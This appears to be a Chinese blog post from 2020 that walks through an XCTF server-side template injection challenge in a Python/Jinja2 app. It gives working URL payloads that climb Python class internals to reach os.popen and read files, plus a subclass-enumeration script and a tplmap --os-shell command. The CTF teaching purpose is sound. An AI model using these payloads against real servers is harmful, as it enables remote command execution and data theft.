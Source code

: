 ```yaml
---
title: "SSTI漏洞初探"
categories: [ "安全技术","CTF","工具分享" ]
tags: [ "漏洞利用","burpsuite" ]
draft: false
slug: "484"
date: "2020-02-08 13:27:00"
---
```


## 起因

在`xctf`上做题遇到的

## 0x00 SSTI 漏洞简介

`SSTI`:`Server-Side Template Injection`

服务器端模板注入，属于格式化字符串漏洞之一。

**注入就是格式化字符串漏洞的一种体现**

不管是二进制还是`web`，很多的漏洞都能归结为格式化字符串漏洞

`sql`注入就是格式化字符串漏洞的最好代表，在本不该执行`sql`语句的地方执行了`sql`语句。

`xss`的部分代码闭合注入也属于这种方式。

什么是模板注入呢？

写`html`代码的时候，为了方便，很多网站都会使用模板，先写好一个`html`文件

当开发者想要这个模板对应的样式时，可以直接用`render_template_string`方法来调用模板

从而直接把这个样式渲染出来，而模板注入，就是指将**一串指令代替变量传入模板让它执行**

## 0x01writeup

首先我们来建立一个简单的测试`url`:

```
xxx.xxx.xxx.xxx:yyyyy/{{7*7}}
```

![][1]

可以看到`7*7`这条指令被执行了

题目说的是`python template injection`，说明服务器端脚本是`python`的

那我们需要知道`python`中的类内方法：

- **class** ： 返回对象所属的类
- **mro** ： 返回一个类所继承的基类元组，方法在解析时按照元组的顺序解析。
- **base** ： 返回该类所继承的基类
- **base**和**mro**都是用来寻找基类的
- **subclasses** ： 每个新类都保留了子类的引用，这个方法返回一个类中仍然可用的的引用的列表
- **init** ： 类的初始化方法
- **globals** ： 对包含函数全局变量的字典的引用

首先我们查看所有模块：

```
xxx.xxx.xxx.xxx:yyyyy/%7B%7B[].__class__.__base__.__subclasses__()%7D%7D
```

![][2]

这里模块很多，为了后续我们方便使用模块，这里我写了一个小脚本，把对应的序号列出来：

```
import requests
import re
import html
url = "http://xxx.xxx.xxx.xxx:yyyyy/[].__class__.__base__.__subclasses__()%7D%7D"
cont = html.unescape(requests.get(url).content.decode("utf8"))
type_list = re.findall(r"<type '.*?'>|<class '.*?'>", cont, re.S)
print(type_list)
for i in range(len(type_list)):
    print(i, type_list[i])
```

效果如下：

![][3]

这里可以使用`catch_warnings`模块的`.__init__.func_globals.keys()`的`linecache`函数来调用`os`模块

```
xxx.xxx.xxx.xxx:yyyyy/%7B%7B().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]['eval']('__import__(%22os%22).popen(%22ls%22).read()'%20)%7D%7D
```

![][4]

也可以使用`os`的`printer`函数来使用`os.popen`函数执行命令行语句

```
xxx.xxx.xxx.xxx:yyyyy/%7B%7B''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('ls').read()%7D%7D
```

![][5]

然后继续使用`os.popen`执行`cat fl4g`命令显示`fl4g`文件内容：

```
xxx.xxx.xxx.xxx:yyyyy/%7B%7B''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('cat fl4g').read()%7D%7D
```

或者直接使用`os`模块的`listdir`方法来寻找`flag`文件：

```
xxx.xxx.xxx.xxx:yyyyy/%7B%7B''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].listdir('.')%7D%7D
```

![][6]

然后使用`file`方法来读取`fl4g`:

```
xxx.xxx.xxx.xxx:yyyyy/%7B%7B''.__class__.__mro__[2].__subclasses__()[40]('fl4g').read()%7D%7D
```

最后读取内容如下:

![][7]

本题也可以使用服务端模板注入工具[`tplmap`][8]

使用`python2`环境，指定`url`加上`--os-shell`参数直接获得目标主机`shell`:

```
python tplmap.py -u "http://xxx.xxx.xxx.xxx:yyyyy/*" --os-shell
```

![][9]

本文完。

参考文章：

- [从零学习 flask 模板注入][10]
- [一篇文章带你理解漏洞之 SSTI 漏洞][11]
- [python 模板注入][12]
- [Flask/Jinja2 SSTI && Python 沙箱逃逸基础][13]
- EndermaN 同学的 writeup

[1]: https://img.soapffz.com/archives_img/2020/02/08/archives_20200208_134254.png
[2]: https://img.soapffz.com/archives_img/2020/02/08/archives_20200208_135909.png
[3]: https://img.soapffz.com/archives_img/2020/02/08/archives_20200208_160138.png
[4]: https://img.soapffz.com/archives_img/2020/02/08/archives_20200208_140455.png
[5]: https://img.soapffz.com/archives_img/2020/02/08/archives_20200208_140635.png
[6]: https://img.soapffz.com/archives_img/2020/02/08/archives_20200208_140729.png
[7]: https://img.soapffz.com/archives_img/2020/02/08/archives_20200208_141217.png
[8]: https://github.com/epinna/tplmap
[9]: https://img.soapffz.com/archives_img/2020/02/08/archives_20200208_154023.png
[10]: https://www.freebuf.com/column/187845.html
[11]: https://www.k0rz3n.com/2018/11/12/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E7%90%86%E8%A7%A3%E6%BC%8F%E6%B4%9E%E4%B9%8BSSTI%E6%BC%8F%E6%B4%9E/
[12]: https://www.cnblogs.com/tr1ple/p/9415641.html
[13]: https://www.guildhab.top/?p=1248